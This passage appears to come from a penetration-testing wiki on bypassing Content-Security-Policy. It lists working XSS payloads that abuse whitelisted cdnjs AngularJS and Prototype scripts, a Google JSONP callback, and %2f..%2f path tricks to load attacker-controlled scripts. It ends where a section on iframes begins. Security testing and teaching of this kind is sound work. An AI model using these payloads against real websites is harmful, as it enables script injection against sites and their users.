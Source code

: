 ```text
Content-Security-Policy: script-src 'self' https://cdnjs.cloudflare.com/; 
object-src 'none' ; 
report-uri /Report-parsing-url;
```

Working payloads abusing cdnjs.cloudflare.com:

```markup
<script src="https://cdnjs.cloudflare.com/ajax/libs/prototype/1.7.2/prototype.js"></script>

<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.0.8/angular.js" /></script>
 <div ng-app ng-csp>
  {{ x = $on.curry.call().eval("fetch('http://localhost/index.php').then(d => {})") }}
 </div>

"><script src="https://cdnjs.cloudflare.com/angular.min.js"></script> <div ng-app ng-csp>{{$eval.constructor('alert(1)')()}}</div>

"><script src="https://cdnjs.cloudflare.com/angularjs/1.1.3/angular.min.js"> </script>
<div ng-app ng-csp id=p ng-click=$event.view.alert(1337)>
```

#### JSONP

```text
Content-Security-Policy: script-src 'self' https://www.google.com;
```

In such scenarios where script-src is set to self and a particular domain which is whitelisted, it can be bypassed using jsonp. [jsonp](https://github.com/zigoo0/JSONBee) endpoints allow insecure callback methods which allow an attacker to perform xss.

Working payload: `"><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>`

The same vulnerability will occur if the **trusted endpoint contains an Open Redirect**, because if the initial endpoint is trusted, redirects are trusted.

### Folder path bypass

If CSP policy points to a folder and you use **%2f** to encode **"/"**, it is still considered to be inside the folder. All browsers seem to agree on that.  
This leads to a possible bypass, by using "**%2f..%2f**" if server decodes it. For example, if CSP allows `http://example.com/company/` you can bypass the folder restriction and execute: `http://example.com/company%2f..%2fattacker/file.js`

Online Example:[ ](https://jsbin.com/werevijewa/edit?html,output)[https://jsbin.com/werevijewa/edit?html,output](https://jsbin.com/werevijewa/edit?html,output)

### Through iframes

```text
Content-Security-Policy: 
default-src 'self' data: *; connect-src 'self'; script-src  'self' ;
report-uri /_csp; upgrade-insecure-requests
```

